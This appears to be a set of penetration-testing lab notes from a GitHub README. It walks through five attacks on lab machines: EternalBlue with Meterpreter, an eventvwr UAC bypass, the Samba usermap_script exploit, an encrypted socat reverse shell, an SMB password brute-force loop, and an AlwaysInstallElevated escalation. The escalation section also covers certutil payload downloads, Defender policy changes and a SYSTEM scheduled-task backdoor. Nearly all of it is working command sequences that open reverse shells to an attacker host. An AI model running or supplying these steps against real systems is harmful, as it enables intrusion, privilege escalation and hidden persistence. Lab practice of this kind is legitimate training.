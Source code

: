 # 1.privilege escalation over win 7 (using bypass uac)
Step 1: 
msfconsole
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.130.230
set LHOST 192.168.130.33
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
exploit

Step 2: Manual UAC Bypass via eventvwr.exe
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=192.168.130.33 LPORT=5555 -f exe > uac_bypass.exe
msfconsole
use exploit/multi/handler
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.130.33
set LPORT 5555
exploit

Step3.
Uploading the payload into victim system (via Meterpreter):
upload uac_bypass.exe C:\\Users\\<username>\\AppData\\Local\\Temp\\uac_bypass.exe

Step4: Hijacking the Registry Key (in Meterpreter shell):
shell
reg add HKCU\Software\Classes\mscfile\shell\open\command /d "C:\Users\<username>\AppData\Local\Temp\uac_bypass.exe" /f

Step5:Triggering UAC Bypass:
start eventvwr

Confirmed Elevated Access

Step6: In the new session:
getuid
NT AUTHORITY\SYSTEM



# 2. SMB service exploit for Metasploitable2


1.Target OS:
Metasploitable2 (Linux, Ubuntu 8.04 with Samba 3.x)

2.Exploit Used:
exploit/multi/samba/usermap_script

3.Metasploit Configuration:

set RHOSTS 192.168.130.54
set LHOST 192.168.130.32
set LPORT 4444
set PAYLOAD cmd/unix/reverse_netcat
run

4.Result:
Reverse shell successfully opened

5.Ran whoami → output: root
System fully compromised via SMB



# 3. Encrypted Reverse shell using socat in Ubuntu

Step 1: Generated a Self-Signed SSL Certificate on Kali

openssl req -x509 -newkey rsa:2048 -nodes -keyout key.pem -out cert.pem -days 365
cat key.pem cert.pem > fullchain.pem

Step 2: Starting Encrypted Listener for access

socat -v OPENSSL-LISTEN:4443,cert=fullchain.pem,verify=0,fork STDOUT

Step 3: Runing the Reverse Shell on Ubuntu

socat -v EXEC:"/bin/bash",pty,stderr,setsid,sigint,sane OPENSSL:<kali ip>:4443,verify=0




# 4.smb brute force on metasploitable2 without using msfconsole module,hydra,x-hydra,medusa,n-crack,crunch.(username- service,user,abc,root,superuser,msfadmin,services) (password-123,root,toor,msfadmin,services,user,service)

1st Method : 
smbclient -L //192.168.130.54 -U "msfadmin%msfadmin" --option='client min protocol=NT1' -m SMB1

smbclient //192.168.130.54/msfadmin -U "msfadmin%msfadmin"

smb: \>
ls

2nd Method :

Step1: Created usernames.txt and passwords.txt files 

Step2: while read user; do
  while read pass; do
    echo "[*] Trying $user : $pass"
    smbclient -L //192.168.130.54 -U "$user%$pass" --option='client min protocol=NT1' -m SMB1
    echo "---------------------------------------------"
  done < passwords.txt
done < usernames.txt




# 5.Win10 always elevated exploit

Step 1: Generating the Reverse Shell (EXE) with msfvenom
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.130.33 LPORT=4444 -f exe > access.exe

Step 2: Payload sent via Python3 -m http.server 80 and downloaded on target system

Step 3: Started the Listener on Kali
nc -lvnp 4444

Got the revshell

Step 4: Modified the target Defender Policies 

Step 5: Create the Priv-Esc on kali with .msi Payload
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.130.33 LPORT=5555 -f msi > system_access.msi

Step 6: Transfered the .msi payload to the Target
python3 -m http.server 80

certutil -urlcache -split -f http://192.168.130.33/system_access.msi C:\Users\Public\system_access.msi

Downloads a file from a remote HTTP server to the target Windows 10
Uses certutil, a built-in Windows tool for managing certificates — often abused by attackers for file transfers

Step 7: Start New Listener for SYSTEM Shell (Kali)
nc -lvnp 5555

Step 8: Executed the .msi paylod on Target as Standard User
msiexec /quiet /qn /i C:\Users\Public\system_access.msi
Silently installs the .msi file using msiexec, the Windows Installer service

Step 9: At nc Listener 5555 got connection 
whoami
nt authority\system

Step 10: Also Created Payload Called BackDoor_Persist.exe
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.130.33 LPORT=7777 -f exe > persist_backdoor.exe

Step 10: Copied the payload through the admin access on kali
copy \\192.168.130.33\kaliShare\persist_backdoor.exe C:\Windows\System32\persist_backdoor.exe

Step 11: Created Persistent Execution with schtasks on Windows 10 Via admin access on kali 
schtasks /create /sc onlogon /tn "WinSysTask" /tr "C:\Windows\System32\persist_backdoor.exe" /ru SYSTEM


Step 12: Stared the Listener on Kali
nc -lvnp 7777

Step 13: Restarted the Target System 

Step 14: Got the BackDoor_Persist Connection After rebooting the target system at port 
nc -lvnp 7777
whoami
nt authority\system

 

 






